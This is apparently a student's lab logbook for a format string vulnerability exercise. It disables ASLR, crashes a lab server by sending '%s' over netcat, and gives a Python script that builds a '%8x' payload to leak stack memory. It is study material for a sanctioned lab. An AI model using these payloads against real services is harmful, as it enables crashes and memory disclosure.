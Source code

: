 # Logbook #6

> Environment Setup:
> ```bash
> $ sudo sysctl -w kernel.randomize_va_space=0
> $ make && make install    # Inside "server-code" directory
> $ cd .. && dcbuild && dcup
> ```

## Task 1: Crashing the Program

Sine we have control over the format string, to crash the format program it is enough to provide "%s" as input. This is because the program will try to read a string from the stack, but none was provided as an argument to the `printf` function.
```bash
$ echo "%s" | nc 10.9.0.5 9090
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd430
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 3 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd358
server-10.9.0.5 | The target variable's value (before): 0x11223344
# No return message, i.e, format crashed
```

## Task 2: Printing Out the Server Program’s Memory

### Step 1: Stack Data

It is necessary 64 %x to reach to the first 4 bytes of the input buffer.

- Auxiliary script to generate the payload:
```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

s = "++++" + "%8x\n"*64

fmt  = (s).encode('latin-1')
content[0:len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```
